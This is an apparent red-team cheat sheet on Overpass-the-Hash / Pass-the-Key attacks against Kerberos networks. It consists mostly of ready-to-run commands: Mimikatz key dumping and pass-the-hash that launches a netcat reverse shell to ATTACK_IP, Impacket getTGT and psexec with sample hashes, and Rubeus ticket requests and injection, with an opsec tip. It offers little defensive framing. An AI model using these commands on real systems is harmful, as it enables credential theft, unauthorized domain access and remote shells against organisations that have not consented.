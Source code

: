 # Overpass the Hash / Pass the Key (PtK)

## Similar to PtH but applied to kerberos networks.

### The Overpass The Hash/Pass The Key (PTK) attack is designed for environments where the traditional NTLM protocol is restricted, and Kerberos authentication takes precedence. This attack leverages the NTLM hash or AES keys of a user to solicit Kerberos tickets, enabling unauthorized access to resources within a network.

### To execute this attack, the initial step involves acquiring the NTLM hash or password of the targeted user's account. Upon securing this information, a Ticket Granting Ticket (TGT) for the account can be obtained, allowing the attacker to access services or machines to which the user has permissions.

### If we have any of those keys (DES,RC4,AES128,AES256) we can ask the KDC for a TGT without requiring the actual password. (Pass-the-Key)

## Globally, all the Impacket tools and the ones that use the library can authenticate via Pass The Key with the -aesKey command line parameter instead of specifying the password. For NetExec it's --aesKey.

#### 

    privilege::debug

#### 

    sekurlsa::ekeys

#### 

    sekurlsa::pth /user:Administrator /domain:DOMAIN /rc4:KEY /run:"c:\tools\nc64.exe -e cmd.exe ATTACK_IP PORT"

OR 

    Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:Security.local /ntlm:<ntlmhash> /run:powershell.exe"'

#### /aes128:KEY can also be used instead 

#### /aes256:KEY can also be used instead 

#### 

    nc -lvp PORT

## Alternate Method: Impacket getTGT

    impacket-getTGT -dc-ip DC_IP -hashes :32196b56ffe6f45e294117b91a83bf38 domain.local/Administrator

    export KRB5CCNAME=Administrator.ccache

    impacket-psexec domain.local/administrator@DC.domain.local -k -no-pass -dc-ip DC_IP

## Alternate Method: Rubeus

    .\Rubeus.exe asktgt /domain:jurassic.park /user:velociraptor /rc4:2a3de7fe356ee524cc9f3d579f2e0aa7 /ptt

    .\PsExec.exe -accepteula \\labwws02.jurassic.park cmd

    .\Rubeus.exe asktgt /user:<USERNAME> /domain:<DOMAIN> /aes256:HASH /nowrap /opsec (Use AES256 for better opsec)


## Tools: Rubeus , getTGT.py

#### 1) getTGT.py

    getTGT.py DOMAIN/USER -hashes:HASHES (Overpass the Hash. Pass the ticket with NTLM hash)

    getTGT.py -aesKey 'KEY' DOMAIN/USER@IP (Pass the Key. Pass the ticket with AES Key)

#### 2) Rubeus

    Rubeus asktgt /user:VICTIM /rc4:RC4_VALUE

    Rubeus ptt /ticket:TICKET (Successful PtT attack)

### Alternate usage:

    Rubeus asktgt /user:VICTIM /rc4:RC4_VALUE

    Rubeus createnetonly /program:C:\Windows\System32\[cmd.exe||upnpcont.exe]

    Rubeus ptt /luid:0xdeadbeef /ticket:TICKET (Pass the ticket)
